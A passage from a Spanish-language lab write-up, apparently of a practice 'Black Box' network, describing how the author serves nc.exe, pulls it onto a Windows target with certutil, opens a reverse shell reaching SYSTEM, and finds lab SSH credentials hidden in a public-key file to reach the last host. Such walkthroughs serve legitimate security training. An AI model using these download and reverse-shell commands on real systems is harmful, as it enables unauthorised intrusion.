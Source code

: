 Primero, creamos un servidor con Python en el puerto 80(si no sois root necesitaréis sudo) usando la librería http de esta forma: `python3 -m http.server 80` y usando certutil.exe lo descargamos en la máquina
con el comando `certutil.exe -urlcache -f http://tuip/nc.exe nc.exe`

Tras haberlo descargado, solo habría que ejecutarlo y con el parámetro -e enviar un cmd.exe a tu ip y el puerto en el que estés escuchando para conseguir acceso a esta máquina.

```bash
rlwrap ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.16.64.199.
Ncat: Connection from 172.16.64.199:49678.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.
whoami
nt authority\system
```

# Credenciales para la 172.16.64.182 {#maquina3}
Y así, estamos casi metidos hasta la cocina, ya que nos faltaría una máquina por comprometer, la 172.16.64.182, que solo tiene el puerto 22 abierto.

Si miramos en el directorio Users encontramos varios usuarios, la flag está en C:\Users\AdminELS\Desktop, junto con lo que supuestamente es una clave pública de SSH:

```bash
type id_rsa.pub
<texto de relleno>jUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22################<relleno>
```
Pero si la miramos de cerca vemos unas credenciales para la máquina que falta por comprometer, que serían las credenciales developer:dF3334slKw. Si entramos por SSH a la 172.16.64.182, veremos la última flag y habremos comprometido todas las máquinas de esta Black Box.

Si te ha gustado puedes ir a mi [github](https://github.com/binlaab) y darme una estrellita :)
